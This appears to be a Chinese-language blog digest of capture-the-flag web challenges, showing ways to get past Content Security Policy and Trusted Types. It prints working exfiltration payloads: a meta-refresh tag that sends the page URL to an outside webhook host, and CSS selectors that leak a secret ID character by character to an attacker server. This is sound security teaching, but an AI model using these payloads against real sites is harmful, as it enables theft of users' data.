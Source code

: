### LINE CTF 2022 - Haribote Secure Note

這題有兩個注入點，第一個在 script 裡面，可以控制 16 個字元，第二個則是 HTML injection，而最大的問題是 CSP 很嚴格：

```html hljs
<meta content="default-src 'self'; style-src 'unsafe-inline'; object-src 'none'; base-uri 'none'; script-src 'nonce-{{ csp_nonce }}'
    'unsafe-inline'; require-trusted-types-for 'script'; trusted-types default"
          http-equiv="Content-Security-Policy">
```

解法有三個：

1.  神奇的 [script data double escaped state](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html#script-data-double-escaped-state)
2.  `import()` 不會被 Trusted Types 擋住
3.  用 `<iframe src='/p'>` 在其他頁面執行程式碼繞過 CSP

順便附上一篇很棒的文章：[Eliminating XSS from WebUI with Trusted Types](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types)

完整 writeup：[https://blog.huli.tw/2022/03/27/linectf-2022-writeup/#haribote-secure-note7-solves](https://blog.huli.tw/2022/03/27/linectf-2022-writeup/#haribote-secure-note7-solves)

### m0leCon CTF 2022 - ptMD

利用 `meta` 組合技洩漏網址：

```html hljs
<meta name="referrer" content="unsafe-url" />
<meta http-equiv="refresh" content="3;url=https://webhook.site/d485f13a-fd8b-4cfd-ad13-63d9b0f1f5ef" />
```

在 CSP 很嚴格的狀態下，meta 可以作為一個突破的技巧。像上面這些 meta 不用放在 head 裡面也有作用，甚至移除掉之後也有用。

完整 writeup：[https://blog.huli.tw/2022/05/21/m0lecon-ctf-2022-writeup#ptmd](https://blog.huli.tw/2022/05/21/m0lecon-ctf-2022-writeup#ptmd)

### corCTF 2022 - modernblog

這題是一個 React app，會用 `dangerouslySetInnerHTML` render 你的東西，也就是說你得到一個 HTML injection。

但 CSP 不讓你執行 script：`script-src 'self'; object-src 'none'; base-uri 'none';`

你要偷的是有 flag ID 的網址，這個網址會出現在 `/home` 頁面，如果我們可以在那個頁面做 CSS injection，就可以這樣偷：

```hljs
a[href^="/post/0"] {
  background: url(//myserver?c=0);
}

a[href^="/post/1"] {
  background: url(//myserver?c=1);
}

// ...
```
